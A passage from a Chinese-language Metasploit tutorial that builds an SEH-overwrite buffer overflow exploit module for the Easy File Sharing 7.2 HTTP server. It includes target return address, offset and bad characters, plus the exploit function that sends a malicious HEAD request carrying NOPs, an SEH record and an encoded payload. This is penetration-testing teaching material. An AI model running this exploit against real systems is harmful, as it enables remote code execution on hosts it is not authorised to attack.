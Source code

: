 ```
        }, 
      'Payload'        => 
        { 
          'Space'    => 390, 
          'BadChars' => "x00x7ex2bx26x3dx25x3ax22x0ax0dx20x2fx5cx2e", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Easy File Sharing 7.2 HTTP', { 'Ret' => 0x10019798, 'Offset' => 4061 } ], 
        ], 
      'DisclosureDate' => 'Mar 4 2018', 
      'DefaultTarget'  => 0)) 
  end 
```

在处理各种模块的头部部分后，我们开始包含库文件的所需部分。接下来，我们定义类和模块类型，就像我们在之前的模块中所做的那样。我们通过定义名称、描述、作者信息、许可信息、有效载荷选项、披露日期和默认目标来开始`initialize`部分。我们在`Ret`返回地址变量和`Offset`字段下使用`4061`作为 POP/POP/RET 指令的地址。我们使用`4061`而不是`4065`，因为 Metasploit 将自动生成短跳转指令到 shellcode；因此，我们将从`4065`字节前开始 4 个字节，以便将短跳转放入载体中，以用于下一个 SEH 记录的地址。

在继续之前，让我们看一下我们将在模块中使用的重要函数。我们已经看到了`make_nops`、`connect`、`disconnect`和`handler`的用法：

| **函数** | **库** | **用法** |
| --- | --- | --- |
| `generate_seh_record()` | `/lib/msf/core/exploit/seh.rb` | 这个库提供了生成 SEH 记录的方法。 |

让我们继续编写代码，如下：

```
def exploit 
  connect 
  weapon = "HEAD " 
  weapon << make_nops(target['Offset']) 
  weapon << generate_seh_record(target.ret) 
  weapon << make_nops(19) 
  weapon << payload.encoded 
  weapon << " HTTP/1.0rnrn" 
  sock.put(weapon) 
  handler 
  disconnect 
  end 
end 
```

`exploit`函数首先通过连接到目标开始。接下来，它通过在`HEAD`请求中附加`4061`个 NOP 生成一个恶意的`HEAD`请求。接下来，`generate_seh_record()`函数生成一个`8`字节的`SEH`记录，其中前 4 个字节形成了跳转到有效载荷的指令。通常，这 4 个字节包含诸如`\xeb\x0A\x90\x90`的指令，其中`\xeb`表示跳转指令，`\x0A`表示要跳转的`12`字节，而`\x90\x90 NOP`指令则作为填充完成了 4 个字节。

# 使用 NASM shell 编写汇编指令

Metasploit 提供了一个使用 NASM shell 编写短汇编代码的绝佳工具。在上一节中，我们编写了一个小的汇编代码`\xeb\x0a`，它表示了一个 12 字节的短跳转。然而，在消除了搜索互联网或切换汇编操作码的使用后，我们可以使用 NASM shell 轻松编写汇编代码。
